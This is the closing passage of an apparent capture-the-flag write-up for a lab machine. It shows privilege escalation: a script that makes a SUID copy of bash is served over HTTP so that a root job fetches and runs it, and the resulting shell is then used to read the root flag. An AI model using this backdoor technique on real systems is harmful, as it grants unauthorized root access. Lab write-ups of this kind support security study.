 ![Screenshot](./images/screen10.png)

### Then we will recreate the same path and create the script that will make a SUID bash file copy for us:
```bash
└─$ mkdir downloads && mkdir ./downloads/src && echo "cp /bin/bash /home/james/rootbash; chmod +xs /home/james/rootbash" > ./downloads/src/buildscript.sh
```

### Start the HTTP server with python:
```bash
└─$ python -m http.server 80
```

![Screenshot](./images/screen11.png)

![Screenshot](./images/screen12.png)

### Hooray! Let's become `root` and grab our flag.
```bash
james@overpass-prod:~$ ./rootbash -p
rootbash-4.4# echo "$(whoami) $(id)"
root uid=1001(james) gid=1001(james) euid=0(root) egid=0(root) groups=0(root),1001(james)
rootbash-4.4# cat /root/root.txt 
thm{redacted}
rootbash-4.4# 
```

## **As always, I hope you enjoyed this writeup. Thanks for reading, stay safe! ^-^**